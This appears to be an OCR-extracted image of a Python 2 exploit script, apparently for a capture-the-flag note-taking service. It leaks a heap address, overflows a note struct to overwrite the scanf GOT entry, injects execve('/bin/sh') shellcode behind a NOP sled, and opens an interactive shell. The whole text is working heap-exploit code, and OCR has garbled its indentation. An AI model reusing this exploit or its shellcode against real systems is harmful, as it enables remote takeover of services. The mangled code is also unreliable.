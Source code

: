 ```python
data = s.recv(1000)

# ugly.. but works :/
m = re.search(r'.*BBB\n(....).*', data)
if m:
        heap = struct.unpack('<L', m.group(1))[0]
            print "[+] Leaked heap address at {}".format(hex(heap))
                # offset for shellcode found empirically via gdb
                    shellcode = heap - 0xd0
                        print "[+] Shellcode at {}".format(hex(shellcode))
                        else:
                                print "[!] Fatal: could not leak heap address"
                                    exit(0)
                                        
                                        time.sleep(0.5)
                                        print "[+] Sending new notes to overwrite got pointer..."
                                        s.send("1\n1\n1\n1\n")  # create two more notes
                                        time.sleep(0.5)
                                        s.recv(1000)

# send new note to overflow pointers
s.send("3\n2\n2\n")
time.sleep(0.5)
s.recv(1000)

time.sleep(0.5)
payload = ""
sc = "\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"
# prepend shellcode with a little NOP sled
payload += "\x90"*(212-len(sc))
payload += sc
# overwrite note_info struct
payload += p(0x804b024-8)     # __isoc99_scanf@got.plt-8
payload += p(shellcode)       # heap location of shellcode

payload += "\n"
s.send(payload)

# request deletion of a note, triggering our write-what-where
# we overwrite a function pointer in the got with the location
# of our shellcode
time.sleep(0.5)
s.send("2\n3\n")

time.sleep(0.5)
s.recv(512)

# shell incoming!
print "[+] Enjoy your shell!"

import telnetlib
t = telnetlib.Telnet()
t.sock = s
t.interact()

s.close()
```
